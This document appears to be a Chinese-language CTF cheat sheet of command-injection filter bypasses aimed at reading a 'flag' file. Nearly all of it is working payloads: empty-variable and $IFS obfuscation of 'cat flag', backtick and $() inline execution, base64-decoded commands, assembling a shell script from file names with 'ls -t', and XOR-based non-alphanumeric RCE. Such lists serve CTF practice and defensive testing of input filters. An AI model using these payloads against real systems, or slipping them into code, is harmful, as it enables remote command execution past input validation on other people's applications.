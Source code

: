 ###### 使用空变量$*和$@，$x,${x}绕过

```
ca$*t fl$*ag
ca$@t fl$@ag
ca$5t f$5lag
ca${2}t f${2}lag
```

###### 拼接法

```
a=fl;b=ag;cat$IFS$a$b
```

###### 反引号绕过

```
cat `ls`
```

###### 编码绕过

```
echo 'flag' | base64
cat `echo ZmxhZwo= | base64 -d`
```

###### 组合绝活

```
touch "ag"
touch "fl\\"
touch "t \\"
touch "ca\\"
ls -t >shell
sh shell
#  \指的是换行
#  ls -t是将文本按时间排序输出
#  ls -t >shell  将输出输入到shell文件中
#  sh将文本中的文字读取出来执行
```

###### 异或无符号（过滤0-9a-zA-Z）

```
异或：rce-xor.php & rce-xor.py
或：rce-xor-or.php & rce-xor-or.py
```

##### 过滤函数关键字

###### 内敛执行绕过（system）

```
echo `ls`;
echo $(ls);
?><?=`ls`;
?><?=$(ls);
```
